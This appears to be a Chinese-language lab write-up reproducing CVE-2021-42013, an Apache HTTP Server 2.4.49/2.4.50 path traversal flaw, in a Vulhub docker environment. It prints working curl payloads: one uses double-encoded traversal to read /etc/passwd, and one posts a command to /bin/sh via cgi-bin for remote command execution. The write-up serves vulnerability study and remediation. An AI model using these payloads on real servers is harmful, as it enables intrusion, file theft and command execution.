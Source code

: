 # Apache HTTP_2.4.50_路径穿越漏洞(CVE-2021-42013)

| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2021-42013                                               |
| 漏洞名称 | Apache HTTP_2.4.50_路径穿越漏洞                              |
| 漏洞评级 | 高危                                                         |
| 影响范围 | 2.4.49<br>2.4.50                                             |
| 漏洞描述 | CVE-2021-42013是由[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)的不完整修复导致的漏洞，攻击者可以使用路径遍历攻击将URL映射到由类似别名指令配置的目录之外的文件。 |
| 修复方案 | 升级至最新版本                                               |

### 1.1、漏洞描述

CVE-2021-42013是由[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)的不完整修复导致的漏洞，攻击者可以使用路径遍历攻击将URL映射到由类似别名指令配置的目录之外的文件

此漏洞影响Apache HTTP Server 2.4.49和2.4.50，而不影响更早版本。

### 1.2、漏洞等级

高危

### 1.3、影响版本

Apache HTTP Server 2.4.49以及2.4.50两个版本

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/httpd/CVE-2021-42013

---

启动测试环境：

```bash
docker-compose build
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到`Apache HTTP Server`的`It works!`

![image-20230907175450419](./imgs/image-20230907175450419.png)

#### 2、漏洞扫描

![image-20230907180631042](./imgs/image-20230907180631042.png)

#### 3、漏洞验证

Apache HTTP Server 2.4.50修补了以前的CVE-2021-41773漏洞

但可以使用`.%%32%65`进行绕过（注意其中的`/icons/`必须是一个存在且可访问的目录）

##### 方式一 curl

```bash
 curl -v --path-as-is http://192.168.80.141:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![image-20230907184422250](./imgs/image-20230907184422250.png)

在服务器上启用mods cgi或cgid后，此路径遍历漏洞将允许执行任意命令

```bash
 curl -v --data "echo;id" 'http://192.168.80.141:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```



![image-20230907184457108](./imgs/image-20230907184457108.png)

##### 方式二 bp抓捕

![image-20230907184552491](./imgs/image-20230907184552491.png)

![image-20230907184748366](./imgs/image-20230907184748366.png)





### 1.5、修复建议

升级至最新版本